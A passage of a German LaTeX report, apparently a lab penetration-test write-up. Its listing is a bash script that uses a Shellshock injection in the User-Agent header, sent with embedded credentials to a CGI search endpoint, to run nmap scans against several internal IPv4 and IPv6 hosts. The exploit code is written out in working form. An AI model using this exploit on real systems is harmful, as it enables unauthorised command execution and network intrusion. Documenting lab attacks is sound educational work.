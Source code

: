 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\begin{lstlisting}[caption=Portscan der gefundenen Hosts,label=code:pscan,language=bash,style=simple]
#!/bin/bash
# das 172er netz scannen
for i in 12 15 25 253
do
ip="172.16.2.${i}"
injCmd="nmap -A -p- ${ip}"
file="host-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done

# das 192er netz scannen
for i in 1 5 22 54 99 124 201 202
do
ip="192.168.98.${i}"
injCmd="nmap -A -p- ${ip}"
file="host-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done

# das 1001er netz scannen
for i in 1 5 9 21 43 79 88 ab
do
ip="fdcb:c447:e9d2:3553:1001::${i}"
injCmd="nmap -6 -A -p- ${ip}"
file="host6-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done

# das 1002er netz scannen
for i in fd fe
do
ip="fdcb:c447:e9d2:3553:1002::${i}"
injCmd="nmap -6 -A -p- ${ip}"
file="host6-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done

# das 1003er netz scannen
for i in 7f 9a da
do
ip="fdcb:c447:e9d2:3553:1003::${i}"
injCmd="nmap -6 -A -p- ${ip}"
file="host6-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done
\end{lstlisting}

Schlussendlich haben wir noch Befehle wie route, tracepath und tracepath6 verwendet, um einen besseren Überblick über die Topologie zu bekommen (Im Stile von Listing ~\ref*{code:restscript}).
\end{document}
